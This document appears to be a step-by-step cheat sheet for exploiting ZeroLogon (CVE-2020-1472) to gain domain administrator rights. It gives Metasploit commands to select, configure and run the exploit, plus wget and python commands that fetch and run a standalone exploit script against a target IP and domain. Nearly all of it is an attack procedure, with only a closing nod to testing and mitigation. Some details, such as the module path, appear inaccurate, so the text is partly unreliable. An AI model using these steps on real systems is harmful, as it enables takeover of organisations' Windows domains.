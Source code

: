 The ZeroLogon exploit targets the CVE-2020-1472 vulnerability in Microsoft Netlogon Remote Protocol, allowing an attacker to gain domain administrator privileges. Here’s a guide to using ZeroLogon exploit tools, including options and examples.

### **ZeroLogon Exploit (CVE-2020-1472)**

#### **Using Metasploit Framework for ZeroLogon**

1. **Search for ZeroLogon Exploit:**
   - **Description:** Search for the ZeroLogon exploit module in Metasploit.
   - **Command:**
     ```bash
     search zerologon
     ```
   - **Example:**
     ```bash
     search zerologon
     ```

   - **Explanation:** 
     - Lists available modules related to ZeroLogon.

2. **Use ZeroLogon Exploit Module:**
   - **Description:** Select the ZeroLogon exploit module.
   - **Command:**
     ```bash
     use exploit/windows/smb/cve_2020_1472_netlogon
     ```
   - **Example:**
     ```bash
     use exploit/windows/smb/cve_2020_1472_netlogon
     ```

   - **Explanation:** 
     - Chooses the ZeroLogon exploit module for Netlogon.

3. **Show Module Options:**
   - **Description:** Display the options for the ZeroLogon exploit module.
   - **Command:**
     ```bash
     show options
     ```
   - **Example:**
     ```bash
     show options
     ```

   - **Explanation:** 
     - Lists configuration options required for the exploit.

4. **Set Exploit Options:**
   - **Description:** Configure the required options for the exploit.
   - **Command:**
     ```bash
     set RHOSTS <target_ip>
     ```
   - **Example:**
     ```bash
     set RHOSTS 192.168.1.100
     set DOMAIN <domain_name>
     ```

   - **Explanation:** 
     - Sets the target IP address and domain name.

5. **Run the Exploit:**
   - **Description:** Execute the ZeroLogon exploit.
   - **Command:**
     ```bash
     run
     ```
   - **Example:**
     ```bash
     run
     ```

   - **Explanation:** 
     - Runs the configured exploit against the target.

#### **Using Standalone Exploits**

For standalone ZeroLogon exploits, you might find various public tools or scripts. These are generally used in a similar manner:

1. **Download the Exploit:**
   - **Description:** Obtain the ZeroLogon exploit script.
   - **Command:**
     ```bash
     wget https://example.com/zerologon_exploit.py
     ```
   - **Example:**
     ```bash
     wget https://github.com/yourrepo/zerologon_exploit.py
     ```

   - **Explanation:** 
     - Downloads the exploit script from a source repository.

2. **Run the Exploit Script:**
   - **Description:** Execute the ZeroLogon exploit script.
   - **Command:**
     ```bash
     python zerologon_exploit.py -t <target_ip> -d <domain_name>
     ```
   - **Example:**
     ```bash
     python zerologon_exploit.py -t 192.168.1.100 -d example.local
     ```

   - **Explanation:** 
     - Runs the exploit against the target IP address with the specified domain name.

#### **Summary of ZeroLogon Commands**

| **Tool**                | **Command**                                  | **Description**                                 | **Example**                                      |
|-------------------------|----------------------------------------------|-------------------------------------------------|--------------------------------------------------|
| **Metasploit (Exploit)**| `search zerologon`                            | Search for ZeroLogon exploit module.            | `search zerologon`                                |
|                         | `use exploit/windows/smb/cve_2020_1472_netlogon` | Use ZeroLogon exploit module.                   | `use exploit/windows/smb/cve_2020_1472_netlogon` |
|                         | `show options`                              | Show options for the exploit.                   | `show options`                                   |
|                         | `set RHOSTS <target_ip>`                    | Set target IP address.                          | `set RHOSTS 192.168.1.100`                       |
|                         | `set DOMAIN <domain_name>`                  | Set domain name.                               | `set DOMAIN example.local`                       |
|                         | `run`                                       | Execute the exploit.                            | `run`                                            |
| **Standalone Exploit**  | `wget https://example.com/zerologon_exploit.py` | Download the ZeroLogon exploit script.          | `wget https://github.com/yourrepo/zerologon_exploit.py` |
|                         | `python zerologon_exploit.py -t <target_ip> -d <domain_name>` | Run the ZeroLogon exploit script.              | `python zerologon_exploit.py -t 192.168.1.100 -d example.local` |

---

The ZeroLogon exploit is crucial for testing and securing systems affected by CVE-2020-1472. Using tools like Metasploit and standalone scripts can help identify and mitigate the risks associated with this vulnerability.